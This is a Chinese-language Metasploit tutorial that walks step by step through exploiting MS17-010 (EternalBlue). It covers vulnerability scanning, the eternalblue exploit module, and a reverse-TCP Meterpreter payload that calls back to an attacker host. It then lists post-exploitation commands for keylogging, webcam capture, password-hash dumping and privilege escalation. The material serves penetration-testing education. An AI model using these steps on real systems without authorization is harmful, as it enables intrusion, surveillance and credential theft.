# Kali渗透教程：P63：2_Metasploit攻击流程 🎯

在本节课中，我们将学习Metasploit框架（MSF）的核心攻击流程。我们将以经典的MS17-010（永恒之蓝）漏洞为例，完整演示从漏洞探测到获取Meterpreter会话，再到进行后渗透操作的整个过程。



## 概述 📋

Metasploit攻击的最终目标是获取**Meterpreter**会话。无论使用MSF对目标进行何种渗透，最终目的都是拿到Meterpreter以进行后续的渗透操作。



## 攻击流程详解



上一节我们介绍了Metasploit的基本概念，本节中我们来看看如何利用一个具体漏洞完成攻击。

### 1. 选择攻击模块

我们如何拿下目标电脑呢？这里使用一个常用且简单的模块：**MS17-010永恒之蓝漏洞**。我们以它为例，因为它是一个十分经典的例子，包含了整个MSF的攻击流程。



首先，我们需要进入MSF控制台。

```bash
msfconsole
```

### 2. 搜索与选择模块

进入MSF后，我们搜索MS17-010相关模块。

```bash
search ms17-010
```

可以看到搜索结果中包含辅助模块和攻击模块。辅助模块用于检测目标机器是否存在MS17-010漏洞，攻击模块则用于实际利用漏洞。

以下是模块类型说明：
*   **辅助模块**：用于漏洞检测。
*   **攻击模块**：用于实际发起攻击。



### 3. 使用辅助模块进行探测

我们首先使用辅助模块进行检测，以确认目标是否存在漏洞。

```bash
use auxiliary/scanner/smb/smb_ms17_010
```

使用 `show options` 命令查看该模块需要配置的选项。

```bash
show options
```

可以看到，目标端口（RHOSTS）默认已指定为445。我们需要指定目标机器的IP地址。

以下是配置步骤：
1.  设置目标地址：`set RHOSTS [目标IP]`
2.  （可选）设置线程数以加快扫描：`set THREADS 10`

设置完成后，运行扫描。

```bash
run
# 或
exploit
```

如果目标存在漏洞，结果会显示“主机似乎有MS17-010漏洞”。

### 4. 使用攻击模块进行利用



探测到漏洞后，我们需要使用攻击模块进行利用。再次搜索并选择一个攻击模块，例如 `exploit/windows/smb/ms17_010_eternalblue`。



```bash
use exploit/windows/smb/ms17_010_eternalblue
```



使用 `show options` 查看需要配置的选项。通常需要配置以下两项：
1.  **RHOSTS**: 目标机器的IP地址。
2.  **PAYLOAD**: 攻击载荷，即成功利用漏洞后希望在目标机器上执行的代码。

设置目标地址和载荷。这里我们设置一个反向TCP连接载荷，让目标机器连接回我们的攻击机。



```bash
set RHOSTS [目标IP]
set PAYLOAD windows/meterpreter/reverse_tcp
```

设置载荷后，使用 `show options` 会发现多出了载荷的专属选项（`Payload options`），其中需要设置：
*   **LHOST**: 监听主机的IP地址（即攻击机的IP）。
*   **LPORT**: 监听端口。

```bash
set LHOST [攻击机IP]
set LPORT 4444
```



所有选项配置完毕后，发起攻击。

```bash
exploit
```

如果攻击成功，我们将获得一个**Meterpreter**会话。

### 5. Meterpreter后渗透操作

Meterpreter是一个功能强大的后渗透工具。在Meterpreter会话中，输入 `?` 或 `help` 可以查看所有可用命令。



以下是主要命令类别介绍：
*   **核心命令**：如 `background`（会话放到后台）、`sessions`（管理会话）。
*   **文件系统命令**：操作靶机文件，如 `cd`, `ls`, `download`, `upload`, `edit`。
*   **网络命令**：查看网络配置、端口、路由等，如 `ipconfig`, `portfwd`。
*   **系统命令**：操作靶机系统，如 `ps`（查看进程）、`kill`（结束进程）、`reboot`（重启）。
*   **用户界面命令**：控制靶机输入输出，如 `screenshot`（截图）、`keyscan_start`（键盘记录）。
*   **摄像头命令**：控制靶机摄像头，如 `webcam_list`, `webcam_snap`（拍照）。
*   **权限提升命令**：如 `getsystem`。
*   **密码哈希命令**：如 `hashdump`。

**举例**：在Meterpreter中执行系统命令。

```bash
shell
```
进入目标系统的命令行后，可以执行如 `dir`, `whoami` 等命令。退出shell可输入 `exit`。



### 6. 会话管理

有时获得的初始会话可能不是Meterpreter，或者我们需要管理多个会话。

*   将当前Meterpreter会话放到后台：`background`
*   查看所有活动会话：`sessions -l`
*   升级一个会话为Meterpreter：`sessions -u [会话ID]`
*   进入某个会话：`sessions -i [会话ID]`

### 7. 补充：内网扫描



在实际渗透中，我们可能需要对整个网段进行扫描。在辅助模块中，可以将RHOSTS设置为一个网段。

```bash
set RHOSTS 192.168.1.0/24
set THREADS 20
run
```

这将扫描192.168.1.1到192.168.1.255的所有主机。设置合适的线程数（如10-20）可以平衡速度与准确性。

### 8. 常用MSF命令总结

以下是本流程中涉及及常用的MSF命令：



*   `search [关键词]`: 搜索模块。
*   `use [模块路径]`: 使用某个模块。
*   `show options`: 显示当前模块需设置的选项。
*   `set [选项名] [值]`: 设置选项值。
*   `run` / `exploit`: 执行模块。
*   `sessions`: 管理会话。
*   `info`: 显示模块详细信息。
*   `back`: 退出当前模块。

## 总结 🎓

本节课中，我们一起学习了Metasploit框架的标准攻击流程：
1.  **信息收集与探测**：使用辅助模块扫描目标，确认漏洞存在（如MS17-010）。
2.  **漏洞利用**：选择合适的攻击模块（`exploit`）和载荷（`payload`），配置目标（`RHOSTS`）和监听端（`LHOST`, `LPORT`），发起攻击。
3.  **建立会话**：攻击成功后，获取Meterpreter会话。
4.  **后渗透阶段**：在Meterpreter中执行各种命令，进行信息收集、权限维持、横向移动等操作。
5.  **会话管理**：使用 `sessions` 命令管理多个连接。



通过这个以永恒之蓝漏洞为例的完整流程，你应该对如何使用Metasploit进行渗透测试有了一个清晰的认识。记住，这些技术仅应用于授权的安全测试和学习环境中。